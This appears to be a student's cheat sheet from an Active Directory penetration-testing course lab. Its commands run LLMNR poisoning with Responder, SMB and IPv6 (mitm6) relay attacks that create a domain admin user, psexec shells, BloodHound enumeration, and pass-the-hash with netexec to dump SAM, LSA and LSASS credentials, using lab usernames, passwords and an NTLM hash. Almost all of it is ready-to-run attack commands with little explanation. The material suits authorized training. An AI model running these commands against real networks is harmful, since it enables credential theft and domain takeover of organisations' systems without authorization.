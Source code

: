 # Initial Attacks
---
[[Initial Attack Strategy]]

- **Run Responder and generate traffic** with nmap / nessus scans [[LLMNR Poisoning Lab]]
	- `sudo responder -I tun0 -dwv`
	- Make sure **all the Servers are on** (specially SMB and HTTP)
	- OneRuleToRuleThemAll (use if fails by default) to crack
	  
- **SMB Relay** (Look for ***Message/SMB signing disabled or not enforced/required*** in nmap) [[SMB Relay Attack Lab]]
	- **turn off SMB and HTTP switches** off in **Responder.conf**
	- `sudo responder -I tun0 -dwv`
	- `impacket-ntlmrelayx -tf targets.txt -smb2support`
- **==Gaining Access (shell) with captured Hash / Password==**
	- [[Gaining a Shell]]
	- **Psexec / WMIExec / SMBexec** (Use another if one fails)
		- `use exploit/windows/smb/psexec` On metasploit
			- Don't forget to **change architecture if required**
		- `impacket-psexec marvel.local/fcastle:'Password1'@10.0.0.25` using impacket => **Better as less noisy**
		  
- ==**IPv6 - MITM6 attack** (A good one)==
	- [[IPv6 Attack]]
	- **Run for 5-10 minutes ONLY to avoid outages**
	- First **run impacket to relay** : `impacket-ntlmrelayx -6 -t ldaps://<DC_IP> -wh fakewpad.marvel.local -l lootme`
	- Then for **domain dump**: `sudo /opt/tools/mitm6/mitm6_env/bin/python /opt/tools/mitm6/mitm6/mitm6.py -d marvel.local`
	- If **some ==administrator log ins, `mitm6.py` will create a new user in the domain for us**==
		- This user has **enterprise admins group and can do secretsdump or dcsync attack**

- ==**Printers or other servers with default/weak credentials**==
	- [[Printer Hacking]]
	- Something that **connects to LDAP, SMB, etc**
	  
- ==**Think out of the box**==
	- **Default credentials**
	- What else is available? - **Websites, Printers, Some other server**
# Post-Compromise Enumeration
---
[[Post-Compromise AD Enumeration]]
==**Look in the linked file in each tool on what to look for in dumped files**==

 - **LDAP Domain Dump**  [[Domain Enumeration ldapdomaindump]]
	 - **Make a new directory and cd into it** to avoid making mess of files
	 - `sudo ldapdomaindump ldaps://<DC_IP> -u 'MARVEL\fcastle' -p Password1 -o .`

- **==Bloodhound dump==** [[Domain Enumeration Bloodhound]]
	- Injestor: `sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns 10.0.1.4 -c all`
	- `sudo neo4j console`
	- `sudo bloodhound`
	- Load collected data and **ENUMERATE**
	- **Double Click on Owned Users to find paths** 
	- [[Backup OPs, Account Ops, Exchange Wind Perms]]
	- ==If **domain admin is logged to non-domain controller**, we can do [[Token Impersonation Overview]]==
	- ==**Kerberoastable Users**==

- **Plumhound**
	- [[Plumhound]]
	- `sudo Plumhoundenv/bin/python PlumHound.py -x tasks/default.tasks -p neo4j1`
	- View report using: `firefox index.html`

- **PingCastle**
	- [[https://academy.tcm-sec.com/courses/1152300/lectures/48515112]]

# Post-Compromise Attacks
---
- **Pass Attacks** [[Pass Attacks Lab]]
	- For ==**enumerating where ELSE the compromised credentials have access to**==
	- `netexec smb 10.0.1.0/24 -u fcastle -d MARVEL.local -p Password1`
	- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`=> 
		- **==Local Auth is required as we have ONLY  dumped hashes of a normal domain machine not from NTDS.dit and HASH does not take domain as argument==**
	- To **test hash reuse across workstations** using a **dumped local admin hash**:
		- `netexec smb 10.0.0.0/24 -u <local_user> -H <hash> --local-auth`
	- ==**Dump SAM** when there is **successful access**==:
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- **Dumping LSA**:
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`
	- **==LSASSY (logged in users sessions's password)==**:
		- `netexec smb 10.0.1.0/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`